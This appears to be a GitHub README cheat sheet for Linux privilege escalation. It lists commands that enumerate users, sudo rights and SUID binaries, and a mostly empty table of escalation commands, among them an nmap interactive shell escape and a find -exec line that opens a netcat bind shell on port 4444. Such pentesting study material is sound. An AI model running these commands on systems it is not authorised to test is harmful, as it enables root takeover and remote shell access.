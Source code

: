 # Linux-Privilege-Escalation
Tips and Tricks for Linux Priv Escalation

## Start with the basics

Who am i?  
`id`

Who else is on this box (lateral movement)?  
`ls -la /home`  
`cat /etc/passwd`  

What Kernel version and distro are we working with here?  
`uname -a`  
`cat /etc/issue`  

What files and folders are in my home user's directory?  
`ls -la ~`

## Next focus on what we can EXECUTE

Who can execute code as root (probably will get a permission denied)?  
`cat /etc/sudoers`

Can I execute code as root (you will need the user's password)?  
`sudo -l`

What executables have SUID bit that can be executed as another user?
`find / -user root -perm -4000 -print 2>/dev/null`  
`find / -perm -u=s -type f 2>/dev/null`  
`find / -user root -perm -4000 -exec ls -ldb {} \;`  


If any of the following commands appear on the list of SUID or SUDO commands, they can be used for privledge escalation

| SUID / SUDO Executables            | Priv Esc Command                                                              |
|------------------------------------|-------------------------------------------------------------------------------|
| nmap (older versions 2.02 to 5.21) | nmap --interactive !sh                                                        |
| awk                                |                                                                               |
| python                             |                                                                               |
| perl                               |                                                                               |
| find                               | find /home -exec nc -lvp 4444  -e /bin/bash \;  find /home -exec /bin/bash \; |
| xxd                                |                                                                               |
| vi                                 |                                                                               |
| bash                               |                                                                               |
| more                               |                                                                               |
| less                               |                                                                               |
| nano                               |                                                                               |
| cp                                 |                                                                               |
